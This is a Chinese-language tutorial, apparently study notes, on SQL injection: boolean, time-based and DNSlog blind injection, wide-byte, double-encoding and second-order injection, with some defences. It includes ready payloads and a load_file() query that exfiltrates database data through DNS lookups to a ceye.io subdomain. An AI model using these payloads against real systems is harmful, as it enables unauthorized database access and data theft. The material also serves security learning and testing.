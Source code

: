 <a name="Bd1pb"></a>
## SQL盲注
<a name="liy90"></a>
### 盲注
当注入语句被带入数据库查询，页面确不能回显结果，如应用程序就会返回一个“通用的”的页面或特定的语句，不能以此来判断注入是否成功，这种情况下就要用到sql盲注的技巧了。<br />sql盲注三个分类：

1. 布尔盲注
2. 时间盲注
3. dnslog盲注
<a name="Xo3Bo"></a>
### 布尔盲注
<a name="FxHM0"></a>
#### 布尔盲注原理
只返回布尔值的sql注入漏洞，通过构造语句，来判断数据库信息的正确性，再通过页面反回的布尔值，来判断正确与否
<a name="Ajlja"></a>
#### 布尔盲注方法
```
#substr()函数,截取某个字符串，与后面的字符串或数字对比
k' and substr((select database()),1,1)='s'
#left()函数,截取前几个字符与期望值对比
k' and left((database()),1)='s'
#regexp函数,用正则判断
k' and select user() regexp '^r'
#like函数
k' and select user() like 'ro%'
# 爆破库、表、字段长度
k' and select length(database())<xx

#有些sql漏洞中,会屏蔽引号,因此更多采用将截取出来的字符串转为ascii码,再对比ascii码值
#ascii和ord函数功能相同,大于、小于、等于配合二分法使用
k' and ascii(substr((select database()),1,1))=114
k' and ascii(substr((select database()),1,1))>114
k' and ascii(substr((select database()),1,1))<20

ord(substr((select database()),1,1))=114
```
<a name="OlLPd"></a>
### 时间盲注
<a name="sHkQT"></a>
#### 时间盲注原理
语句执行后，不回显，不报错，不提示真假的sql注入漏洞。可以通过构造语句，通过条件语句判断，为真则立即执行，否则延时执行
```
#确实是否有注入点，如果相应时间是自定义的睡眠时间，则大概率有注入点
k' and sleep(x) #
#然后通过之前的函数，猜测库、表、字段
k' and if(ascii(substr(database(),1,1))>115,0,sleep(5));

#也可以先通过sleep计算出库、表、字段长度
k' and sleep(length(database()))
```
<a name="cnc0d"></a>
### dnslog盲注
<a name="Xh7Hy"></a>
#### dnslog盲注原理

1. 首先需要存在sql注入漏洞，但不回显，常规只能用布尔盲注和时间盲注猜单词
2. 但是利用Mysql `load_file()`函数(唯windowns)，可以用sql语句发起web请求
3. 将我们盲注需要获取的信息，通过二级域名的方式，发起web请求
4. 利用特定的dns解析网站，获取这些二级域名的记录，就能得到数据

前提要求

1. windows系统
2. 该用户具有file权限
3. `SHOW VARIABLES LIKE 'secure_file_priv'`结果为NULL
<a name="vqKEb"></a>
#### dnslog盲注方法
登录[http://ceye.io/](http://ceye.io/)网站并注册，得到属于自己的identifier 先尝试在终端运行`curl test.xxxx.ceye.io`，在解析记录就可以看到对应记录 在windows系统下，使用`load_file()`发起如下类似请求：
```sql
select load_file(concat('\\\\',(select version()),'.xxxx.ceye.io\\abc'))
```
如果解析记录有结果，后续就可以用sql注入的其他语法自由发挥了有些特殊符号不能作为二级域名，通用的方法是用hex()转换为16进制处理
<a name="kJzGO"></a>
## 其他SQL注入方法
都是面对php代码或配置，对输入的单引号进行转义时，在处理用户输入数据时存在问题，可以绕过转义
<a name="dD1TI"></a>
### 宽字节注入
dbk处理编码的过程存在问题，可以构造数据消灭转义符\
<a name="MiaRS"></a>
#### 宽字节注入原理
在对单双引号进行了转义过滤的情况下，前面的注入方式都不好使，但可以在引号前加上%df再进行sql注入尝试<br />它的原理是

1. `\'`编码后的值为`%5C%27`
2. 使用GBK编码数据库时，两个字符为一个汉字
3. ASCII码只有128个，大于128的，就会和第二个字符组成一个汉字
4. 使用`%df\'`，编码后为`%df%5C%27`<br />第一个码大于128，因此会使用前两个字符運，最后单剩一个引号<br />即编码后的值为運'
5. 然后就可以正常进行sql注入了
<a name="gxaPC"></a>
#### 宽字节注入方法
黑盒测试的话：在可能的注入点后，键入%df'后，进行测试<br />白合测试的话：

1. 查看mysql编码是否为GBK
2. 是否使用`preg_replace`转换单引号为`\'`
3. 是否使用addslashes进行转义
4. 是否使用mysql_real_escape_string进行转义
<a name="nPyF6"></a>
#### 宽字节注入防范

1. 使用utf-8，可以避免宽字节注入<br />不仅在gbk中，韩文、日文等都是宽字节
2. 使用`mysql_real_escape_string`方法转义<br />需同时设置`mysql_set_charset('gbk',$conn)`
3. 可以设置mysql连接参数：`character_set_clinet=binary`
<a name="oFP57"></a>
### 二次编码注入
php代码中用了`urldecode()`等编码函数，对url中的特殊字符进行编码，可以利用此函数与php自身编码转换，产生漏洞
<a name="d6lua"></a>
#### 二次编码注入原理

1. 用户输入`id=1%27`，会被php转码为`id=1'`
2. 转义代码发现有单引号，转义为`id=1\'`，无法sql注入
3. 用户输入`id=1%2527`，由于%25转码后就是%，因而会转码为id=1%27
4. 转义代码没有发现单引号，故不转义
5. 但后续urldecode等函数，处理url时，会将`id=1%27`转码为`id=1'`，就可以注入<br />注意：如果做白盒测试，要看urldecode函数 是否在转义方法之后
<a name="CPEGv"></a>
### 二次注入
<a name="BdQsi"></a>
#### 二次注入原理

1. 插入恶意数据<br />有些程序在进行数据库插入的时候，仅仅对特殊字符进行了转义，但仍然将数据写入了数据库，如果插入的数据包含恶意内容的话
2. 引用恶意数据<br />在插入到数据库中后，在另外的地方查询该数据的时候，如果没有对取出的数据做校验处理(即认为可信)，直接使用该数据，就会造成sql二次注入
<a name="shTsT"></a>
#### 二次注入举例
举例1如下：

1. 新建用户admin'#，有特殊字符，但写入成功，并能使用该用户登录
2. 正常修改用户密码时<br />sql语句如是：`update user set password='1234' where username='x' and psssword='xx'`
3. 但当用户为admin'#时<br />sql语句变为：`update user set password='1234' where username='admin'#' and xxxxx`<br />明显井号后的语句都被注释掉了
4. 结果就是会修改掉原有用户admin的密码

举例2如下：

1. 有两个页面，一个页面写入数据，另一个页面可以有办法查看该数据
2. 如果写入时，写入了`xx' union select 1,database(),3`
3. 如果存在sql注入漏洞，写入的数据应该为1，库名，3
4. 在另一个页面就可以看到该库名数据
<a name="Sl1sQ"></a>
#### 二次注入防御

1. 对外部提交的数，需要更加谨慎处理，特殊字符不写入
2. 程序内部的数据调用，也要进行严格检查，不要认为可信
